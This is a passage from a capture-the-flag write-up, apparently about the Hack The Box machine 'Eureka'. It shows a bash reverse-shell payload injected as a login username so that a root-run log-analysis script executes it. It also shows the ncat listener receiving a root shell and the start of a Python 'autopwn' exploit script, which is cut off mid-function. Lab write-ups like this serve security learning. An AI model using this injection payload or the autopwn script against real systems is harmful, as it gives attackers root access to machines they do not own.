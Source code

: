Because the username itself is already in the log file `/var/www/web/user-management-service/log/application.log`

```bash
2025-04-28T05:15:06.626Z  INFO 1324 --- [USER-MANAGEMENT-SERVICE] [http-nio-127.0.0.1-8081-exec-8] c.e.Furni.Security.LoginFailureLogger    : Login failed for user '`bash -i >& /dev/tcp/10.10.14.158/9001 0>&1`': Bad credentials
2025-04-28T05:15:11.224Z  INFO 1324 --- [USER-MANAGEMENT-SERVICE] [http-nio-127.0.0.1-8081-exec-5] c.e.Furni.Security.LoginFailureLogger    : Login failed for user '`bash -i >& /dev/tcp/10.10.14.158/9001 0>&1`': Bad credentials
```

And because it will appear twice, the `log_analyse.sh` script will see the first one, create a new array element, see the second one and attempt the arithmetic with it.

We should get a call back on our listener within 2 minutes.

```bash
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.129.236.230.
Ncat: Connection from 10.129.236.230:57698.
bash: cannot set terminal process group (1555176): Inappropriate ioctl for device
bash: no job control in this shell
root@eureka:~#
```

Given that this is almost impossible to know blind it's really difficult to see that this is a vulnerability. That being said... this is now one of the stupid things I'll try first: bash injection in username twice 😅.

## The AutoPwn

This box had interested me so much that I decided to vibe code a quick way to get back into the box as root.
```python
import socket, sys, time, requests, argparse
from bs4 import BeautifulSoup

def get_session_and_csrf():
    """Retrieves the session and CSRF token from the login page."""
    try:
        response = requests.get("http://furni.htb/login")
        response.raise_for_status()  # Raise an exception for bad status codes
        soup = BeautifulSoup(response.text, 'html.parser')
        csrf_token = soup.find('input', {'name': '_csrf'})['value']
        session_cookie = response.cookies.get('SESSION')  # Use the correct cookie name 'SESSION'
        return session_cookie, csrf_token
    except requests.exceptions.RequestException as e:
        print(f"[ - ] Error fetching login page: {e}")
        sys.exit(1)
    except (AttributeError, TypeError) as e:
        print(f"[ - ] Error parsing CSRF token: {e}")
        sys.exit(1)

def listen(ip, port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind((ip, port))
    s.listen(1)
    print(f"[ + ] Listening on {ip}:{port}")
    conn, addr = s.accept()
    print(f"[ + ] Connection received from {addr[0]}:{addr[1]}")
    while True:
        try:
            ans = conn.recv(1024).decode()
            sys.stdout.write(ans)
```